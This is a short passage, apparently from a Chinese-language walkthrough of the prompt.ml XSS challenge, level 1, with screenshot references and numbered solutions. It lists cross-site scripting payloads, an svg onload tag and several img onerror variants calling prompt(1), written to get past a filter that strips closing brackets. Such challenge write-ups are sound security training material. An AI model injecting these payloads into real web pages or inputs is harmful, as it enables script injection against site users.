 ![1_1](/img/xss/prompt_ml/level1_001.png)

2. `<svg/onload=prompt(1)//`
![1_2](/img/xss/prompt_ml/level1_002.png)

3.  `<img src='' onerror='prompt(1)'`或`<img src='' onerror='prompt(1)' /`或`<img src='' onerror='prompt(1)' //`
    